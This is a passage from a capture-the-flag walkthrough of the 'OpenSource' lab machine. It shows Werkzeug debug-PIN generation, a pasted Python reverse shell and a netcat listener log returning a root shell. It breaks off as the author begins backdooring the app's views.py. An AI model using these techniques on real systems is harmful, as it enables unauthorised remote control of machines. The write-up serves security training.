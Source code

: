     cookie_name = '__wzd' + h.hexdigest()[:20]
    ...[snip]...



Now it generates a PIN that works and gives a console where I can run
Python commands:

![](/img/image-20220930074512302.png)

#### Reverse Shell

With that shell, I can run OS commands with the `subprocess` module:

![](/img/image-20220930074749921.png)

I'll grab a Python reverse shell from
[revshells.com](https://www.revshells.com/), paste it into the console,
and execute it (there's no line wrap, so only the end shows):

![](/img/image-20220930075036345.png)

The reverse shell connects to my listening `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.164 46930
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)



### Shell by Replacing views.py

#### Generate Backdoored Version

Because the application is running in debug mode, it will reload any
time any of the source files change. I'll use this along with the upload
ability to overwrite `views.py`.

I've got a copy of the `views.py` file that runs on OpenSource. At the
bottom, I'll add another route:
